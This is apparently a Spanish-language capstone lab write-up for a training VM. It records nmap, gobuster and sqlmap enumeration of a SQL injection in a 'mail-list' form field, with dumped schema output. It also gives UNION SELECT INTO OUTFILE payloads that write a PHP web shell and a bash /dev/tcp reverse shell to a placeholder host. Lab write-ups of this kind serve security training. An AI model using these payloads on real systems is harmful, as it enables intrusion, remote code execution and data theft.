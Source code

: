 # Walk: SQL Injections Attacks - Module Exercise - VM 2 

## Fecha: 27/01/20
## Host: Ubuntu
## IP: 192.168.235.48

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #2 and exploit the SQLi vulnerability to get the flag.

## Herramientas
1. nmap 
2. sqlmap
3. gobuster

## Procedimiento y comandos
1. Paso 1: Enumeracion:
	- **nmap -open -sV -sC 192.168.193.48** | +
	- nmap -p 3306 --script mysql-empty-password,mysql-brute,mysql-info 192.168.193.48 | -
	- nmap -p 80 --script http-vuln* 192.168.193.48 | -
	- nmap -p 80 --script http-sql-injection 192.168.193.48 | -
	- gobuster dir -u http://192.168.235.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | -
	- **sqlmap -u "http://192.168.193.48" --data="mail-list=test@test.com" -p mail-list --batch** | +
	- Enumeramos la base de datos:
	- **sqlmap -u "http://192.168.193.48" --data="mail-list=test@test.com" -p mail-list --dbs --batch** | +
	available databases [2]:
	[*] animal_planet
	[*] information_schema

	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet --tables** | +
	Database: animal_planet
	[1 table]
	+-------------+
	| subscribers |
	+-------------+

	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D information_schema --tables** | +
	Database: information_schema
	[79 tables]
	+---------------------------------------+
	| ADMINISTRABLE_ROLE_AUTHORIZATIONS     |
	| APPLICABLE_ROLES                      |
	| CHARACTER_SETS                        |
	| CHECK_CONSTRAINTS                     |
	| COLLATIONS                            |
	| COLLATION_CHARACTER_SET_APPLICABILITY |
	| COLUMNS_EXTENSIONS                    |
	| COLUMN_PRIVILEGES                     |
	| COLUMN_STATISTICS                     |
	| ENABLED_ROLES                         |
	| FILES                                 |
	| INNODB_BUFFER_PAGE                    |
	| INNODB_BUFFER_PAGE_LRU                |
	| INNODB_BUFFER_POOL_STATS              |
	| INNODB_CACHED_INDEXES                 |
	| INNODB_CMP                            |
	| INNODB_CMPMEM                         |
	| INNODB_CMPMEM_RESET                   |
	| INNODB_CMP_PER_INDEX                  |
	| INNODB_CMP_PER_INDEX_RESET            |
	| INNODB_CMP_RESET                      |
	| INNODB_COLUMNS                        |
	| INNODB_DATAFILES                      |
	| INNODB_FIELDS                         |
	| INNODB_FOREIGN                        |
	| INNODB_FOREIGN_COLS                   |
	| INNODB_FT_BEING_DELETED               |
	| INNODB_FT_CONFIG                      |
	| INNODB_FT_DEFAULT_STOPWORD            |
	| INNODB_FT_DELETED                     |
	| INNODB_FT_INDEX_CACHE                 |
	| INNODB_FT_INDEX_TABLE                 |
	| INNODB_INDEXES                        |
	| INNODB_METRICS                        |
	| INNODB_SESSION_TEMP_TABLESPACES       |
	| INNODB_TABLES                         |
	| INNODB_TABLESPACES                    |
	| INNODB_TABLESPACES_BRIEF              |
	| INNODB_TABLESTATS                     |
	| INNODB_TEMP_TABLE_INFO                |
	| INNODB_TRX                            |
	| INNODB_VIRTUAL                        |
	| KEYWORDS                              |
	| KEY_COLUMN_USAGE                      |
	| OPTIMIZER_TRACE                       |
	| PARAMETERS                            |
	| PROFILING                             |
	| REFERENTIAL_CONSTRAINTS               |
	| RESOURCE_GROUPS                       |
	| ROLE_COLUMN_GRANTS                    |
	| ROLE_ROUTINE_GRANTS                   |
	| ROLE_TABLE_GRANTS                     |
	| ROUTINES                              |
	| SCHEMATA                              |
	| SCHEMATA_EXTENSIONS                   |
	| SCHEMA_PRIVILEGES                     |
	| STATISTICS                            |
	| ST_GEOMETRY_COLUMNS                   |
	| ST_SPATIAL_REFERENCE_SYSTEMS          |
	| ST_UNITS_OF_MEASURE                   |
	| TABLESPACES                           |
	| TABLESPACES_EXTENSIONS                |
	| TABLES_EXTENSIONS                     |
	| TABLE_CONSTRAINTS                     |
	| TABLE_CONSTRAINTS_EXTENSIONS          |
	| TABLE_PRIVILEGES                      |
	| USER_ATTRIBUTES                       |
	| USER_PRIVILEGES                       |
	| VIEWS                                 |
	| VIEW_ROUTINE_USAGE                    |
	| VIEW_TABLE_USAGE                      |
	| COLUMNS                               |
	| ENGINES                               |
	| EVENTS                                |
	| PARTITIONS                            |
	| PLUGINS                               |
	| PROCESSLIST                           |
	| TABLES                                |
	| TRIGGERS                              |
	+---------------------------------------+

	- information_schema tiene varias tablas de interes:
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet -T subscribers --columns**
	Table: subscribers
	[6 columns]
	+------------+-------------+
	| Column     | Type        |
	+------------+-------------+
	| status     | varchar(50) |
	| created_at | timestamp   |
	| donor_type | varchar(50) |
	| emails     | varchar(50) |
	| id         | int         |
	| is_donor   | varchar(50) |
	+------------+-------------+
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet -T subscribers --dump**
2. Paso 2: Definicion del angulo de ataque:
	- Escalar a RCE o Reverse Shell:
	- Es posible explorar --os-shell de sqlmap o directamente con burp obtener el shell haciendo uso de LOAD_FILE()
3. Paso 3: Definicion de payloads:
	- Burp RCE: **UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/rce.php';**
	- Burp RCE: '+union+select+null,null,null,null,'<?php+system($_GET["cmd"]);+?>',null+into+outfile+'/var/www/html/rce.php#
	- Burp Reverse Shell: ** UNION SELECT "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/your_ip/4444 0>&1\"'); ?>" INTO OUTFILE '/var/www/html/shell.php';**
 
4. Paso 4: Escalada a RCE:
	- Ejecutamos en el parametro mail-list el payload.
	- **mail-list='+union+select+null,null,null,null,@@version,null'//** devuelve la version de mySql
	- ** mail-list='+union+select+null,null,null,null,@@version,null+into+outfile+'version.txt+\ **
	- **mail-list='+union+select+null,null,null,null,load_file("/var/version.txt"),null'//**
## Troubleshooting

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

